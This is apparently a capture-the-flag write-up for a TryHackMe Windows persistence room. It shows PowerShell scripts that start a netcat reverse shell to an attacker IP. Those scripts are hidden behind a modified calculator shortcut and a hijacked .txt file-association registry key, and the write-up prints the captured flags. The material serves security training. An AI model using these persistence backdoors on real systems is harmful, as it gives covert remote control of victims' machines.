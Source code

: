 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/05/2023

# Shortcut Files
1. Started up this room's machine
2. Opened up the compromised Windows machine's calculator properties

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20New%20Properties.png)

3. `PowerShell` from the compromised Windows machine to
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
4. `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
5. `$scriptContent = @"`
6. `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
7. `C:\Windows\System32\calc.exe`
8. `"@` 
9. `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.210.65 9999"
>> C:\Windows\System32\calc.exe
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
>>
```
5. Change the calculator's icon and shortcut properties to 'powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT NAME>.ps1'

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20Properties%20Zoomed%20In.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Calculator%20New%20Properties.png)

6. `nc -lvnp <PORT NUMBER>`  from our Linux attack machine to
```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
7. Click on the calculator

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Backdoor%20Script%20Executed%20.png)

```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.105.224 49982 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
8. `C:\flags\flag5.exe` from our reverse shell to run the **flag54.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag5.exe
C:\flags\flag5.exe
THM{NO_SHORTCUTS_IN_LIFE}
```


**TASK COMPLETED**

# Hijacking File Associations
1. Started this room's machine
2. `regedit` from the compromised Windows machine to open up the Registry Editor (**Regedit**), which we'll then go and later modify the data in the **Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\txtfile\shell\open\command** registry, since this is what'll get executed whenever we open a **.txt** file on the compromised WIndows machine
```PowerShell
C:\Users\Administrator>regedit
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20Zoomed%20In.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20pt%202.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/regedit%20.txt%20pt%202%20Zoomed%20In.png)

3. `PowerShell` from the compromised Windows machine to open up PowerShell, which we'll then use to create a PowerShell (.ps1) script containing a payload that we'll use to connect back to our netcat listener that we'll later set up on our Linux machine, in the compromised machine's **C:\Windows\System32** directory
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
4. `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
5. `$scriptContent = @"`
6. `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
7. `C:\Windows\system32\NOTEPAD.EXE $args[0]`
8. `"@` 
9. `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.173.81 9999"
>> C:\Windows\system32\NOTEPAD.EXE $args[0]
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
PS C:\Users\Administrator>
```
10. We'll go back into the Registry Editor that opened up already and we'll change the **textfile**'s current value data to be `powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT FILE>.ps1 %1`, which will allow our backdoor script to be executed everytime a user open a text file on the compromised machine 

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Default%20Value%20Data.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/New%20Value%20Data.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/New%20Value%20Data%20pt2.png)

11. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to set up our netcat listener that'll listen for any inbound connections
```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

12. Once our netcat listener, from the compromised Windows machine, we'll open any text file to execute our created payload, which ended up doing so and connecting back to our netcat listener on our attack machine 

![]()

```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.141.70 49905 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>
```
13. `C:\flags\flag6.exe` from our reverse shell to run the **flag6.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Users\Administrator\Desktop>C:\flags\flag6.exe
C:\flags\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}
```


**TASK COMPLETED**
